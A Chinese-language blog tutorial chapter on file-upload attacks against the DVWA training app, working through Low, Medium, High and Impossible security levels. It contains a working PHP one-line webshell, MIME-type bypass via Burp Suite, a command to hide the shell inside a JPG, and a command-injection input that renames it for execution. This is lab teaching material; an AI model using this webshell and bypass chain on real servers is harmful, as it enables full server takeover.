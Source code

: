 ```yaml
---
title: "文件上传攻击实战"
date: 2019-05-04T16:15:57+08:00
description: ""
draft: false
tags: ["dvwa"]
categories: ["网络安全"]
---
```


<!--more-->



# 11. 文件上传攻击实战

#### 11.1 文件上传攻击概述

　　对黑客来说，进行 Web 渗透的目的就是为了拿下网站的控制权，甚至是服务器的控制权。前面章节所讲的攻击方式大多数都是为了能够拿到网站的控制权。当拿到网站的控制权之后，其实能够做的事情还相对较少，黑客一般都会通过上传 Webshell 来提权，使自己可以获得整台服务器的控制权。

　　Webshell 以 ASP、PHP、JSP 等网页文件形式存在的一种命令执行环境，也称其为一种网页后门，通过 Webshell 可以对所在服务器进行远程管理。简单的说，就是 Webshell 运行在哪台服务器上，黑客就可以通过连接该 Webshell 来控制这台服务器。所以黑客一般会想尽千方百计来把自己的 Webshell 上传至目标服务器。


　　Webshell 也称网页木马。一般把网页木马可以分为一句话木马、小马和大马。所谓一句话木马，就是这个木马的攻击代码通常非常简短，简短到只有一句话，但是却可以对服务器实现各种控制，功能非常强大，一般需要使用 “中国菜刀” 进行连接来实现控制；小马会提供自己的管理页面，无需专门的连接工具，攻击代码一般也比较简短；而大马也有自己的管理页面，而且功能最全面，但是攻击代码会比较多，导致木马文件容量比较大，很难通过文件容量的限制。

　　有了 Webshell，如何把它上传到目标服务器上就是难度最大的一件事了。一般网站都会有很多提供上传文件功能的页面，比如上传用户头像、上传帖子附件等。这些页面也就成了黑客的重点光顾对象。虽然一般提供文件上传功能的页面都会有各种防御措施，比如限制上传的文件类型必须是图片，检查文件头部来判断文件类型。但是免不了仍然会存在一些破绽，一旦发现了破绽导致黑客能够把 Webshell 上传到服务器，那么黑客就可以轻松获得服务器的控制权。

## 　　

#### 11.2 Low 级别文件上传攻击实战

1. 安全级别设置为 `Low`，点击 `File Upload` 按钮进入文件上传攻击页面。发现是一个上传图片的页面，随便找一张图片文件（图片大小要小于 100K，前端有限制上传文件大小），可以成功上传到服务器，如图 11-1。按照返回的图片地址，可以访问到该图片，如图 11-2

   

   ![img](../../img/15622317118443.jpg)

   图 11-1

   

   

   ![img](../../img/15622318039529.jpg)

   图 11-2

   

2. 创建一个 PHP 一句话木马，文件后缀为 php，代码如下：

   ```
   <?php @eval($_POST[dmc]);?>      //dmc 为变量，作用类似于连接的密码，可以自定义
   ```

3. 把一句话木马进行上传，发现可以直接上传成功，如图 11-3

   

   ![img](../../img/15622320647396.jpg)

   图 11-3

   

4. 使用中国菜刀连接一句话木马。在菜刀中点击右键，添加，打开添加 SHELL 的对话框。在地址栏输入刚才上传的 PHP 一句话木马地址 `http://192.168.75.100/dvwa/hackable/uploads/shell.php`，后面的文本框中填写刚才设置的变量 `dmc`，点击添加，如图 11-4

   

   ![img](../../img/15622323288282.jpg)

   图 11-4

   

5. 双击添加的 `Shell` 连接，可以管理目标服务器的整个硬盘数据，包括文件上传和下载，如图 11-5

   

   ![img](../../img/15622324328414.jpg)

   图 11-4

   

6. 右键点击 `Shell` 连接，点击 虚拟终端，打开命令执行环境，可以在目标服务器上执行命令，如图 11-5

   

   ![img](../../img/15622325244936.jpg)

   图 11-5

   

------

#### 11.3 Medium 级别文件上传攻击实战

> 实验前到网站目录下删除上个级别上传成功的一句话木马文件，避免影响下个级别实验效果的真实性

1. 设置安全级别为 `Medium`，进入文件上传攻击页面，查看页面源码，发现限制了上传文件的 `MIME` 必须为 `image/jpeg` 或者 `image/png`，并且限制文件大小不能超过 100K，如图 11-6

   

   ![img](../../img/15622332431615.jpg)

   图 11-6

   

2. MIME 类型可以通过篡改来绕过防御，而对于文件大小限制，一句话木马本来就小，基本不用考虑。我们这里可以通过 `Burpsuite` 抓包改 `MIME` 来上传一句话木马。设置好 `Burpsuite` 和浏览器的代理，拦截上传一句话木马的包，发现 `MIME` 类型默认为 `application/octet-stream`，如图 11-7。我们修改成 `image/jpeg` 或 `image/png`，再放行数据包，如图 11-8，发现可以成功上传，如图 11-9

   

   ![img](../../img/15622337588155.jpg)

   图 11-7

   

   

   ![img](../../img/15622339683791.jpg)

   图 11-8

   

   

   ![img](../../img/15622340236348.jpg)

   图 11-9

   

3. 使用菜刀连接，可以成功连接并进行管理，如图 11-10

   

   ![img](../../img/15622341256198.jpg)

   图 11-10

   

------

#### 11.4 High 级别文件上传攻击实战

> 实验前到网站目录下删除上个级别上传成功的一句话木马文件，避免影响下个级别实验效果的真实性

1. 设置安全级别为 `High`，进入文件上传攻击页面，查看页面源码，发现使用 `strrpos( $uploaded_name, '.' )` 函数来截取文件名中最后一个 . 后面的字符，来识别为上传的文件的后缀名，并只接受后缀名为 `jpg`，`jpeg`，`png` 的文件。这个方法主要的目的是为了防止利用 IIS6 的文件解析漏洞。另外还使用了 `getimagesize( $uploaded_tmp )` 来获取文件头中的图片尺寸信息。读取不到尺寸信息则拒绝上传，如图 11-11

   

   ![img](../../img/15622353415516.jpg)

   图 11-11

   

2. 由于存在文件头的检查，所以我们只能找一张真正的图片文件，把一句话木马嵌入进去。在 `Windows` 中把一张正常的图片文件和一句话木马文件放置在同一个目录下，使用命令 `copy dmc5.jpg/b+shell.php/a shell.jpg`，会组合出一个携带一句话代码的 `shell.jpg` 文件，如图 11-12。上传该文件，发现可以成功，如图 11-14

   

   ![img](../../img/15622402884750.jpg)

   图 11-12

   

   

   ![img](../../img/15622403869639.jpg)

   图 11-13

   

3. 上传成功了，但由于图片仍然是 `jpg` 后缀，服务器不会把它当做 `PHP` 文件解析，使用菜刀连接，果然连接失败，如图 11-14

   

   ![img](../../img/15622404926859.jpg)

   图 11-14

   

4. 由于 00 截断和文件解析漏洞早已无法使用，这里只能结合 DVWA 中其他攻击模块的漏洞来完成（严格来说，接下来已经不能算是单纯的文件上传攻击了）。点击 `Command Injection` 按钮，进入命令注入攻击模块，我们可以使用 `High` 级别的命令注入漏洞来把上一步上传的 `shell.jpg` 重命名为 `shell.php`，使一句话代码能够被当做 `PHP` 解析。在命令注入页面中输入 `|ren D:\phpstudy\PHPTutorial\WWW\DVWA\hackable\uploads\shell.jpg shell.php`，如图 11-15

   

   ![img](../../img/15622411757576.jpg)

   图 11-15

   

5. 再次使用菜刀连接重命名之后的 `Webshell`，连接地址 `http://192.168.75.100/dvwa/hackable/uploads/shell.php`，可以成功连接，说明文件被成功重命名，如图 11-16

   

   ![img](../../img/15622413752703.jpg)

   图 11-16

   

------

#### 11.5 Impossible 级别文件上传攻击

　　Impossible 级别的文件上传页面，查看源码，发现使用了 `md5()` 函数对上传的文件的文件名进行重命名，重命名为 MD5 散列运算之后的值。这个方法主要是为了防御通过 00 截断来解析一句话木马；同时使用了随机 Token 检查来增加修改数据包上传的难度，如图 11-17。另外，由于 `Impossible` 级别下，命令注入攻击也无法实施，所以该级别下，并没有文件上传漏洞
　　

![img](../../img/15622995660349.jpg)



图 11-17